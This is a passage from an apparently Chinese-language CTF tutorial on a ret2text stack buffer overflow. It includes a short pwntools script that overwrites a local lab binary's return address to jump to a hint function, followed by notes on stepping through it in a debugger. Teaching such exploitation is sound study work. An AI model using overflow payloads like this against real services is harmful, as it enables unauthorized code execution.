 当main函数执行到ret指令时, 就会返回跳转到hint函数去执行

#### Exploit

```python
from pwn import*

o = process('./ret2text_basic')
 
hint = 0x4005D6
payload = 'a'*0x18 + p64(hint)
o.sendline(payload)

o.interactive()
```

在调用scanf函数下一条指令处设置断点, 看看执行情况

![e2f6c455de1eef94f687d6bf020f4604](自救指南.assets/e2f6c455de1eef94f687d6bf020f4604.png)

接着执行到ret指令

![4f5667bb4d3b1551b3f3b32a882026af](自救指南.assets/4f5667bb4d3b1551b3f3b32a882026af.png)

ret指令会跳转到当前栈顶的那个地址去接着执行代码
